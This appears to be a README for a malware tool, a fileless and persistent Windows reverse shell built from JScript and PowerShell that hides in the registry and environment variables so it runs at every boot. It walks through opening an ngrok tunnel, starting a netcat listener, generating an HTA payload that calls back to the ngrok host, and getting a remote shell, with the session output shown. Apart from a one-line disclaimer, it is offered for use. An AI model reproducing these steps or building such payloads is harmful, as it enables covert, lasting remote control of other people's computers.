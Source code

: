 # RVPW -misk0zz

# Reverse Shell Persistent Windows (RVPW) persistent reverse shell for windows
This is a fileless living off the land reverse shell written in JScript and Powershell script. It runs every time the windows boots and relies solely on windows registry and environment variables to execute without creating any files on the system<br>
Disclaimer: this program is only for educational purposes

## Reverse shell
In this case I'm using ngrok to make a tcp tunnel:
```
ngrok tcp 3333
```
then we run netcat to listen on port 3333
```
nc -nvlp 3333
```
### creating payload 
Now we can create out payload with our ngrok tunnel's domain and port 
```
python3 generador.py 8.tcp.ngrok.io 18053 payload.hta
```
all you have to do now is to run payload.hta in your windows machine and you get a reverse shell
```
┌─[kali@kali]─[~]
└──╼ $nc -nvlp 3333
listening on [any] 3333 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50662
> echo hello
hello
> 
```
this reverse shell is persistent meaning every time you boot the windows the payload will execute
